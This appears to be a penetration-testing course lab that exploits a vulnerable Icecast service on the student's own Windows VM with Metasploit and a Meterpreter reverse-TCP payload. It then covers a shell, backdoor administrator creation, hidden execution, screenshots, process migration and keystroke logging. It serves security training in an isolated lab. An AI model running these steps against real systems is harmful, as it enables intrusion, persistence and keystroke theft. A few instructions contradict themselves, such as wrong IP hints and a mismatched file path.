



Lab 3.2: Meterpreter
Objectives
In this lab, we’ll analyze the Meterpreter, using Metasploit to deliver this flexible payload to a vulnerable service that you put on your Windows machine temporarily. Specifically, we exploit the Icecast service (version 2.0.0), an internet multimedia streaming server that has a buffer overflow vulnerability. Our Metasploit payload will consist of the Meterpreter stage, loaded via the reverse_tcp stager, making a connection from the exploited box back to the attacker.
Lab Steps
You’ll run this lab entirely on your own systems, with the vulnerable Icecast service on your Windows box getting exploited by your Linux virtual machine. On the slide, we depict Steps 1 through 4 of this lab. Note that throughout the entire lab, each of these step numbers will still apply.
Step 1: Configure Metasploit to exploit Icecast.
Step 2: Exploit the target service, sending the reverse_tcp stager as a payload with the Meterpreter stage.
Step 3: Use Meterpreter running inside Icecast’s memory space, shoveling a reverse TCP connection back to the attacker.
Step 4: Interact with the Meterpreter running inside of the compromised machine’s Icecast process.
Lab Setup
For this lab, you’ll attack your Windows machine, causing it to run the Meterpreter. Because we don't want anyone to exploit your Icecast process and control your Windows box, make sure your system is configured to use host-only networking.
To switch to host-only networking, on your Host machine, you need to:
Disconnect your Ethernet connection by unplugging your network cable and disabling any wireless activity.
In VMware, make sure you have selected 'Host-only' networking (in VMware, go to VM > Settings, select Network Adapter, and check Host-only).

IP Address Change
Note: The IP addresses of your systems will change! The IP address shown on the desktop will not update immediately. The IP address from the command line will always be correct.
Linux
You will need to renew your IP address by running the following commands:
sec560@slingshot~$ sudo dhclient -r eth0 sec560@slingshot~$ sudo dhclient eth0
Note: You may see an error stating that SMB can't be restarted. You can safely ignore this error.
Then find your new IP address by running ifconfig.
sec560@slingshot~$ ifconfig

Windows
Your Windows host should detect the network change and get a new IP address automatically. To determine the new IP address, run the following command:
C:\> ipconfig
Write down your new Windows and Linux IP addresses.
Disable the Windows Firewall
To make sure this works properly, you may need to disable your Windows built-in firewall. Please run the command below from an elevated command prompt running with Administrator privileges, then verify that you can ping from Windows to Linux and from Linux to Windows:
C:\> netsh advfirewall set allprofiles state off C:\> ping YOUR_LINUX_IP_ADDRESS
YOUR_LINUX_IP_ADDRESSwill likely be something similar to 192.168.X.X.
Then, in Linux, run:
sec560@slingshot~$ ping YOUR_WINDOWS_IP_ADDRESS
YOUR_WINDOWS_IP_ADDRESSwill likely be 192.168.X.X.
If you can successfully ping with host-only networking, you are ready to begin.
Lab – Step-by-Step Instructions
Step 1: Metasploit on Linux
We’ll move to our Linux virtual machine. Step 1 involves running Metasploit and configuring it to exploit the Icecast service. Launch Metasploit using the command below:
$ msfconsole
Note that your command prompt is now the Metasploit Framework console prompt (msf5 >).
Then search for the exploit associated with the Icecast service:
msf5 > search icecast
You should see an exploit for Windows called icecast_header, with a ranking of "great".
We now choose the exploit. We’ll use the Icecast Header buffer overflow exploit, which applies to the version of Icecast we installed:
msf5 > use exploit/windows/http/icecast_header
Note that our prompt has changed and now includes the name of the exploit we’ve chosen.
Next, we choose the payload to use in the exploit. We’ve opted for a Meterpreter payload that will make a reverse TCP connection back to the attacker after it is running inside the vulnerable process:
msf5 exploit(windows/http/icecast_header) > set PAYLOAD windows/meterpreter/reverse_tcp
Next, let’s look at the options that are associated with this exploit:
msf5 exploit(windows/http/icecast_header) > show options
We have to configure these options for our attack.
Again, the first option we’ll set is the RHOST. This will be the IP address we want Metasploit to attack. We should enter the IP address of our Windows machine running the vulnerable Icecast service. Make sure you use the VMnet1 IP address you configured for your Windows machine:
msf5 exploit(windows/http/icecast_header) > set RHOST YOUR_WINDOWS_IP_ADDRESS
Note: Don't type
YOUR_WINDOWS_IP_ADDRESS; use your Windows IP address (e.g., 192.168.18.128).
We need to tell Metasploit where it should configure the Meterpreter reverse shell to connect to. We want it to connect back to our Linux machine, so let’s set it to do so:
msf exploit(windows/http/icecast_header) > set LHOST YOUR_LINUX_IP_ADDRESS
Note: Don't type
YOUR_LINUX_IP_ADDRESS; use your Windows IP address (e.g., 192.168.18.129).
Metasploit is now configured. Let’s review our Metasploit configuration:
msf exploit(windows/http/icecast_header) > show options
We’re almost ready for the attack, but we have a little housekeeping to do first.
We now need to invoke the Icecast server on our Windows machine.
Right-click the Icecast icon on your desktop and select Run as administrator.
When the GUI for Icecast appears, click the Start Server button. The Server Status indication should turn green and say "Running".
To make sure that Windows can reach our Linux machine with the reverse Meterpreter shell unfettered, let’s also make sure that Windows can ping Linux. On your Windows machine at cmd.exe, run:
C:\> ping YOUR_LINUX_IP_ADDRESS
Note: Don't type
YOUR_LINUX_IP_ADDRESS; use your Windows IP address (e.g., 192.168.18.129).
If the ping works successfully, we are ready to go. If it does not, double-check your network settings.
Step 2: Launch the attack
Let’s launch the attack! On your Linux machine, at the msf prompt, simply type exploit and press Enter:
msf5 exploit(windows/http/icecast_header) > exploit -z
The
-zoptions sends the session to the background.
If the exploit is successful, you should see a message on Linux saying "Meterpreter session X created in the background".
If the exploit works and you see "Session N created in the background", please move to Step 3 below.
If it is not successful, keep in mind that when Metasploit exploits Icecast, there is a chance that Icecast could crash. Remember, most exploits have a certain probability of success, falling short of 100%. We chose to use the Icecast exploit because it has a higher probability of success, but it will sometimes crash the program.
If you see a message on your Windows box that says Icecast has crashed, simply rerun it. You can do this by closing the Icecast GUI on Windows. Then rerun Icecast by double-clicking it on your Windows desktop. Click the Start Server button again, and watch for the Server Status box to turn green and say "Running".
If Icecast did not crash but the exploit was unsuccessful, confirm that you have the correct LHOST IP address for your Linux system.
Then, try running the exploit command again in the Metasploit console.
Step 3: Connecting to Meterpreter
Note step 3 in the overview is the exploit loading Meterpreter, so we will continue with Step 4.
At the msf > prompt, we ask Metasploit for an inventory of the connections it is managing for us between compromised systems and our machine. We can do this by asking for a list (-l, lowercase L) of sessions:
msf exploit(windows/http/icecast_header) > sessions -l
Note: That is a dash-lowercase-L, not a 1.
Furthermore, note that Metasploit displays the detailed session information from our Windows machine connected back to our Linux machine.
If your Metasploit command shell is not responsive, press CTRL-C. Then type in the sessions -l command.
We now tell Metasploit that we want to interact (-i) with session number X. (We will use the session number that Metasploit assigned when the exploit worked successfully. The first session number is 1.)
msf exploit(windows/http/icecast_header) > sessions -i 1
Our prompt now changes from the Metasploit prompt (msf) to the Meterpreter prompt:
meterpreter >
The Meterpreter is now ready for us to interact with it, accessing the victim machine.
Step 4: Meterpreter
As we move into Step 4 to interact with our Meterpreter session, let’s review the architecture of what we are looking at. You are viewing your Meterpreter session on your Linux machine running Metasploit. That session is actually controlling your Windows machine, with the Meterpreter running inside of the Icecast process.
With the Meterpreter running, let’s explore the system a little bit. Run the following command:
meterpreter > sysinfo
This shows us our operating system type of the compromised machine.
Now, let’s determine our username on the victim box:
meterpreter > getuid
We should have the same username that you used to invoke the Icecast server because we are running from within its memory space.
Next, let’s look at the processes running on the screen:
meterpreter > ps
Look carefully for the process named Icecast2.exe. Make a note of its process ID number here:
Process ID for Icecast2.exe : _____________
And finally, let’s look at the Meterpreter commands we have available:
meterpreter > help
Now let’s explore some commands we have for interacting with the file system. First, we will navigate to the c:\ directory. Note that in Meterpreter, you have to either use a forward slash (/) to refer to directory paths or use an escape sequence of a backslash to indicate a backslash (\\). So, to change to the c:\ directory, please run:
meterpreter > cd c:\\
Note that within the Meterpreter, you can also refer to c:\ as /. So the commands cd c:\\ and cd / do the same thing.
Next, let’s find out where we are in the directory structure. (Given that we just changed to c:\, we should be there.) The particular command depends on the version of the Meterpreter you are running. For some Meterpreter versions, the command is pwd. For others, it is getcwd. Run either of them. One or both should work:
meterpreter > pwd
Now let’s get a directory listing:
meterpreter > ls
Sometimes what we want to accomplish on a target is easier completed with a simple Windows shell, such as cmd.exe, than it is within the Meterpreter. To support that kind of access, the Meterpreter includes the shell command, which executes a cmd.exe.
You can see this convenient feature by executing the shell command from within the Meterpreter prompt:
meterpreter > shell
If this command fails, please skip ahead to after the next screenshot to see an alternative way to get shell from the Meterpreter prompt.
If the shell command succeeds, you can now type whatever commands you would like inside of the cmd.exe:
C:\> hostname C:\> ipconfig C:\> dir
And so on. To exit your shell, simply type exit, and you should be back to the meterpreter > prompt:
C:\> exit meterpreter >

If the shell command did not work for you, you can alternatively use the execute command to run a program. Let’s run a cmd.exe command shell. We’ll invoke it "channelized" with the -c option, which means that the Meterpreter will keep a communications session open with the executed program so that we can interact with it:
meterpreter > execute -f cmd.exe -c
Note: Due to a small bug in Metasploit, you may see your Meterpreter prompt repeated on the screen again and again and again. That’s ok. Just hit
CTRL-Cto restore your Meterpreter prompt to normal.
If the execution of the program is successful, the Meterpreter will tell us its process ID and the channel number we can use to interact with the process’s Standard Input and Standard Output. We can perform such interaction using the interact command as follows:
meterpreter > channel -i N
The N should be replaced with the channel number (NOT THE PROCESS ID NUMBER) you saw in the output of the execute command.

You can now type whatever commands you would like inside of the cmd.exe:
C:\> hostname C:\> ipconfig C:\> dir
Let's now look at the users on the system.
C:\> net user
The output should look like this:
C:\> net user User accounts for \\SEC560STUDENT ------------------------------------------------------------------------------- Administrator DefaultAccount fred Guest notadmin sec560 student WDAGUtilityAccount The command completed successfully.
Let's create a backdoor account.
Note: You will need to use a unique username. Do not type BACKDOOR_USER; instead, type your unique username. Please do not use offensive words or names.
C:\> net user BACKDOOR_USER Password1 /add The command executed successfully.
The above command will create a user with a password of Password1.
Let's now confirm the user exists by running this command:
C:\> net user BACKDOOR_USER
The output should look like this:
C:\> net user BACKDOOR_USER User name backdoor Full Name Comment User's comment Country/region code 000 (System Default) Account active Yes Account expires Never Password last set 6/5/2019 3:42:37 AM Password expires Never Password changeable 6/5/2019 3:42:37 AM Password required Yes User may change password Yes Workstations allowed All Logon script User profile Home directory Last logon Never Logon hours allowed All Local Group Memberships *Users Global Group memberships *None The command completed successfully.
This account is more useful if it has administrative permissions, so let's make this account an administrator by running the command below:
C:\> net localgroup administrators BACKDOOR_USER /add The command executed successfully.
Let's now take a look at the members of the administrators group by running this command:
C:\> net localgroup administrators
The output should look like this:
C:\> net localgroup administrators Alias name administrators Comment Administrators have complete and unrestricted access to the computer/domain Members ------------------------------------------------------------------------- Administrator backdoor fred sec560 student The command completed successfully.
As we can see, our new account is an administrator!
Let's remove the account, using the command below:
C:\> net user BACKDOOR_USER /del The command completed successfully.
We can confirm the deletion by running net user again. For the sake of space, the output isn't included here.
To exit your shell, simply type exit, and you should be back to the meterpreter > prompt:
C:\> exit meterpreter >
Note that the cmd.exe window appeared on the Windows GUI while it was running. To make the program run in a hidden mode, the execute command can be run with a -H option for "hidden".
The execute command is nice and flexible in that it allows us to run any program we want, cmd.exe or otherwise, channelizing its Standard Input and Standard Output.
Next, let’s grab a screenshot of the exploited system:
meterpreter > screenshot -p /tmp/screen.jpg
Meterpreter will take the screenshot, which may take a few moments.
Next, launch the Firefox browser in your Linux image (by clicking its icon on the top panel). In Firefox, go to the location of:
/tmp/my_screen.jpg
You should see your screenshot.
We will now migrate the Meterpreter DLL on the exploited machine from one process to another. We’ll jump from the Icecast2.exe process into a notepad.exe process on our Windows machine.
Start by running Notepad on Windows from the Windows machine. (Do not invoke it from within the Meterpreter.) Go to the Start menu (or Windows menu) and run notepad.exe.
Next, back within the Meterpreter, we get our current process ID number:
meterpreter > getpid
Now, get a process list to find the process ID of Notepad. We can use the ps command with a -S (capital S) option to search:
meterpreter > ps -S notepad.exe
Make a note of the process ID number of notepad.exe here: _____________
Then, to jump into that process, we use the migrate command as follows:
meterpreter > migrate DESTINATION_PROCESS_ID
For the
DESTINATION_PROCESS_ID, use the process ID number of notepad.exe.
Migration may take several seconds to work. If it is successful, you’ll see a message saying so.
If your migration fails (and it is likely that it may) you will have to re-establish your Meterpreter session. First, kill your existing session by typing exit. Then, make sure Icecast is running and simply run exploit again.
If successful (no errors), look at your new process ID:
meterpreter > getpid
It should be the number associated with notepad.exe. If so, you just hopped between processes. Migration can be buggy. If the target process crashes, that’s okay. You can exploit the target system again by exiting your dead Meterpreter session with a CTRL-C or exit command. Then restart Icecast. At your msf > prompt, rerun the exploit -z command. Move to the next slide without migration.
Even if migration failed, we can still activate the keystroke logger. Make sure Notepad is running (regardless of whether you are migrated to it). We will next invoke the keystroke logger in the Meterpreter. Start it by running:
meterpreter > keyscan_start
Then, in Windows, type some text into Notepad.
Now go back to the Meterpreter and dump the captured keystrokes to the screen:
meterpreter > keyscan_dump
It should be noted that sometimes the keystroke logger misses keys or jumbles the order of keystrokes, especially when someone types rather quickly.
Then stop the keystroke logger:
meterpreter > keyscan_stop
To finish the lab, you should cleanly exit the Meterpreter by typing:
meterpreter > exit
Then, to exit Metasploit, type:
msf exploit(windows/http/icecast_header) > exit
To finalize the lab, kill Notepad on Windows. Then let’s stop Icecast.
Networking
Change your Networking back to Bridged.
Windows: Your Windows host should get a new IP address relatively quickly.
Linux: You will need to get a new IP address after switching back to Bridged networking by running the following commands.
$ sudo dhclient -r eth0 $ sudo dhclient eth0
Conclusion
In this lab, we saw a service-side exploit in use against a vulnerable listening service. By exploiting that flaw using Metasploit, we were able to load a Meterpreter payload with a reverse_tcp stager into the target machine’s memory. We then explored numerous features of the Meterpreter, including its ability to explore the file system, run programs (such as a shell), provide channels of communication between a program’s Standard Input and Standard Output, take screenshots, migrate processes, and log keystrokes. Truly, the Meterpreter is a very powerful payload component in the penetration tester’s arsenal.